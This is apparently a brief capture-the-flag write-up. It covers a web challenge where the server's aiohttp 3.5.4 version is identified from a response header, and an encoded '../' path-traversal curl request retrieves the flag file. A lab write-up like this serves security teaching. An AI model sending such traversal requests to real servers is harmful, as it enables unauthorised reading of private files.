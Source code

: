 # information

Will you be able to find the **flag** in the **universe/** ?

I've been told that the guy who wrote this nice application called **server.py** is a huge fan of **nano** (yeah... he knows **vim** is better).

http://exploring-the-universe.ctf.insecurity-insa.fr/

# solution

From BURP Suite I pick up this :

HTTP/1.1 200 OK
DT: DT_REG
Content-Type: application/javascript
Content-Length: 21989
Date: Sat, 04 May 2019 10:30:25 GMT
Server: **Python/3.7 aiohttp/3.5.4**
Connection: close

Invoking Google with this : "aiohttp/3.5.4 vuln"

1st link : https://snyk.io/vuln/SNYK-PYTHON-AIOHTTP-40582

Now let's exploit this vuln :

curl https://exploring-the-universe.ctf.insecurity-insa.fr/%2e%2e/universe/flag

# flag

INSA{3e508f6e93fb2b6de561d5277f2a9b26bc79c5f349c467a91dd12769232c1a29}
